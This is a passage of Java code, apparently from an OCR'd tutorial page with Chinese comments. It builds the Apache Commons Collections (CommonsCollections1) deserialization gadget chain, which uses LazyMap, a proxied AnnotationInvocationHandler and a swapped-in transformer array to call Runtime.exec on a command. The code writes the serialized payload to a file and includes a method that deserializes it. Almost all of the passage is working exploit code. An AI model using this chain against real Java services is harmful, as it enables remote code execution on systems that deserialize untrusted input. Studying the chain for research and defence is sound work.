 ```java
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                // new Class[0]为占位符
                new InvokerTransformer(
                        "getMethod",new Class[]{String.class, Class[].class},new Object[]{"getRuntime",new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",new Class[]{Object.class, Object[].class},new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec", new Class[]{String.class}, new Object[]{cmd}
                )
        };
        // 创建虚假的调用链
        Transformer[] fakeTransformers = new Transformer[]{new ConstantTransformer(1)};
        ChainedTransformer ChainedTransformer = new ChainedTransformer(fakeTransformers);

        Map innerMap = new HashMap<>();
        Map outerMap = LazyMap.decorate(innerMap, ChainedTransformer);
        // 获取AnnotationInvocationHandler类对象
        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        // 获取AnnotationInvocationHandler类的构造方法
        Constructor constructor = cls.getDeclaredConstructor(Class.class, Map.class);
        // 设置方法访问权限
        constructor.setAccessible(true);
        InvocationHandler mapHandler = (InvocationHandler) constructor.newInstance(Override.class, outerMap);
        Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]{Map.class}, mapHandler);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(Override.class, proxyMap);
        // 将真正的利用链数组设置到ChainedTransformer里面的iTransformers字段值
        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(ChainedTransformer, transformers);
        FileOutputStream fileOutputStream = new FileOutputStream("1.txt");
        // 创建并实例化对象输出流
        ObjectOutputStream out = new ObjectOutputStream(fileOutputStream);
        out.writeObject(handler);
    }

    /*
     * 服务端
     *  */
    public void unserialize() throws Exception{
        // 创建并实例化文件输入流
        FileInputStream fileInputStream = new FileInputStream("1.txt");
        // 创建并实例化对象输入流
        ObjectInputStream in = new ObjectInputStream(fileInputStream);
        in.readObject();
    }
}
```

